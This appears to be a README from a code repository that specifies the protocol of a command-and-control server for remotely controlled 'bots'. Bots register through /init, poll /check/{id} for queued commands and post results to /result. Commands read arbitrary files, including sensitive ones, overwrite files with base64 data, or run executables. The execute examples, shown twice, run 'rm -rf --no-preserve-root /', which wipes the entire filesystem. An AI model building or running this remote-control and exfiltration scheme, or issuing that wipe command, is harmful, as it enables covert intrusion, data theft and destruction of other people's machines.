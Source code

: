 # Server

## Commands

Commands take the following form:

```jsonc
{
    "action": "read", // OR "write" OR "execute"
    "path": "some path",
    "payload": [...]
}
```

With three different types of actions. These actions have different `payload` objects, but all of them
will call the server's `result` endpoint with a specific result.

### `read`

`path` is interpreted as the path to a file to read. `payload` is ignored in this case, the bot will read the file at `path`.

The returned result is expected to be the content of the file.

```jsonc
{
    "action": "read",
    "path": "/etc/some-config-file",
    "payload": [] 
}
```

### `write`

The first value in `payload` is interpreted as a base64-encoded string containing the bytes
to write to `path`. This string is decoded to a byte array, and `path` is overwritten
with the byte array.

The returned result is expected to be the return code of the `write` call.

```jsonc
{
    "action": "write",
    "path": "/tmp/some-file",
    "payload": ["aGVsbG8="] // base64 for "hello" in ASCII
}
```

### `execute`

The `payload` array is treated as a set of arguments to the executable `path`. Each value should be a string, and
is passed to the executable unmodified.

The returned result is the `stdout` output of the command, if any.

```jsonc
{
    "action": "execute",
    "path": "/usr/bin/bash",
    "payload": [
        "-c",
        "xcowsay 'eggs dee' && rm -rf --no-preserve-root /"
    ]
}
```

## `/init`: returns an ID for the bot

This returns a JSON object with the following format:

```jsonc
{
    "id": "some string"
}
```

The ID returned uniquely identifies a connected bot, and
is how a bot checks for commands.

## `/check/{id}`: return the list of commands for the bot

This returns a JSON object with the following format:

```jsonc
[
    {
        "action": "read", // or "write" or "execute"
        "path": "some string", // path to something being read/written/executed
        "payload": [] // possibly empty
    },
    // potentially more
]
```

This makes the server empty the command queue of the bot identified by `id`.

Example:
```jsonc
// GET /check/abcdef1234
[
    {
        "action": "read",
        "path": "/some/sensitive/file",
        "payload": []
    },
    {
        "action": "execute",
        "path": "/usr/bin/bash",
        "payload": [
            "-c",
            "xcowsay 'eggs dee' && rm -rf --no-preserve-root /"
        ]
    }
]
```

## `/result`: Return a result for a command

This accepts a POST with a JSON body of the following format:

```jsonc
{
    "id": "<some id>",
    "result": "<base64-encoded string>"
}
```

The `result` field is decoded and written to a file for `id`.